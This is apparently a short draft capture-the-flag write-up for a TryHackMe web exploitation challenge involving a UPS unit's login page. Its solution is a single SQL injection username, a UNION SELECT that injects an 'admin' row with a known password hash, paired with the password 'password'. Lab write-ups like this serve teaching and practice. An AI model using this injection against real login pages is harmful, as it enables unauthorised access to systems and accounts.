 ```yaml
---
title: "Uninterrupted Problem Supply"
categories: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 30
solves: -1
flags: flag: THM{REDACTED}
---
```

> Virelia simply loves buying devices from Mechacore. Their most recent acquisition is a UPS unit. Mechacore promised the login page was 100% secure. Let's see if it can keep us out.

---

Username: ' UNION SELECT 1, 'admin', '5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8' -- 
Password: password
